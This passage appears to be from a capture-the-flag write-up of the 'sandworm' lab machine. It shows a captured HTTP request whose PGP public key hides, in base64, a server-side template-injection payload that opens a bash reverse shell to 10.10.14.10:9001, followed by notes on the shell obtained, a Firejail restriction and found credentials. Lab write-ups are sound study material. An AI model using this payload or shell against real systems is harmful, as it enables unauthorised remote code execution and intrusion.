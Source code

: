 ```
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

signed_text=-----BEGIN+PGP+SIGNED+MESSAGE-----%0AHash%3A+SHA512%0A%0Atest%0A-----BEGIN+PGP+SIGNATURE-----%0A%0AiLMEAQEKAB0WIQQs%2F7ykENK1cMsl53IG20aly7lULAUCZI9rawAKCRAG20aly7lU%0ALK8%2FA%2F4zMETaiUWCoMTiZ73384LuDHt8I%2Fe3L8vPb%2BpGusjuDHFWyI4SmYKkG9od%0AiTDVgg%2BOvDwjM8W%2FJPZYWCkLShoTemzAbKzW8Wx9Zp%2B36PYeWu3BQlejJBeqp3Or%0AJu%2FUModIBeokCBJMsl4uGqvIQ2jwdmeRrT9mpzgiBxsOc7PdRA%3D%3D%0A%3DB7mK%0A-----END+PGP+SIGNATURE-----&public_key=-----BEGIN+PGP+PUBLIC+KEY+BLOCK-----%0A%0AmI0EZI5YnAEEANSXXk%2FQsApldWgbFjGjGSv%2B8yzrjk1BtmZSbziq%2F5qX8OMZfsCz%0AlXGI4IViffXcJeTAjk5Iu0VwmdVyIgkr8jHbyXlUzV9%2F9R%2FWhfhuCKdXIsSdmCFq%0AIoK6fXwHmmGsXtRJ0IPjeKAoWIsup%2Fnxoi96fmmI6teHSdn1k5wv0n4TABEBAAG0%0AkXt7IHNlbGYuX19pbml0X18uX19nbG9iYWxzX18uX19idWlsdGluc19fLl9faW1w%0Ab3J0X18oJ29zJykucG9wZW4oJ2Jhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3Av%0AMTAuMTAuMTQuMTAvOTAwMSAwPiYxIicpLnJlYWQoKSB9fSA8dGVzdEB0ZXN0LmNv%0AbT6IzgQTAQoAOBYhBCz%2FvKQQ0rVwyyXncgbbRqXLuVQsBQJkjlicAhsvBQsJCAcC%0ABhUKCQgLAgQWAgMBAh4BAheAAAoJEAbbRqXLuVQs%2Fm0EAKl3euZ64UbA3YbjFPei%0A583oJy7zooPfPcX3vubfBhFCXmzDkGfu7EJeL23YKc9HGvsa3qtrB9E85vc8ujV%2F%0AuTx3u%2BPHHypNLu2o9cIyWC2VGHRO%2F4KOkaTbg%2FI9wF7WfKC6DHV6m%2B8qVLRccDOJ%0Ad7Wgc7RDZblQnsE3RWxONzfH%0A%3Dil2H%0A-----END+PGP+PUBLIC+KEY+BLOCK-----
```

## Reverse Shell Returned (user: atlas)

![dd43b24ba9b3765866da1589815d5257.png](/assets/img/dd43b24ba9b3765866da1589815d5257.png)

## Firejail is limiting user atlas

```bash
atlas@sandworm:~/.config$ ls -la
ls -la
total 12
drwxrwxr-x 4 atlas  atlas   4096 Jan 15 07:48 .
drwxr-xr-x 8 atlas  atlas   4096 Jun  7 13:44 ..
dr-------- 2 nobody nogroup   40 Jun 18 19:25 firejail
drwxrwxr-x 3 nobody atlas   4096 Jan 15 07:48 httpie
```

## Credentials for user silentobserver found
